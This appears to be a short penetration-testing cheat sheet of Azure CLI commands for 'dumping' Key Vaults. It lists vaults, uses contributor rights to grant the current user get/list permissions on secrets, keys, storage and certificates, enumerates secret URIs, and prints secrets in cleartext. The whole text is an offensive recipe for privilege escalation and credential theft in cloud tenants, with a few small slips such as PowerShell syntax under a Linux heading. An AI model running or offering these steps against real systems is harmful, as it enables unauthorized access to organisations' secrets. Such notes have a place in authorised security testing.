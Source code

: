 # Az Linux CLI Tool

### Authentication

 - az login

# Dump Azure Key Vaults

### List out any key vault resources the current account can view

 - az keyvault list –query '[].name' --output tsv

### With contributor level access you can give yourself the right permissions to obtain secrets.

 - az keyvault set-policy --name KEY_VAULT_NAME --upn YOUR_CONTRIBUTOR_USERNAME --secretpermissions get list --key-permissions get list --storage-permissions get list --certificate-permissions get list

### Get URI for Key Vault

 - az keyvault secret list --vault-name KEY_VAULT_NAME --query '[].id' --output tsv

### Get cleartext secret from keyvault

 - az keyvault secret show --id URI_FROM_LAST_COMMAND | ConvertFrom-Json
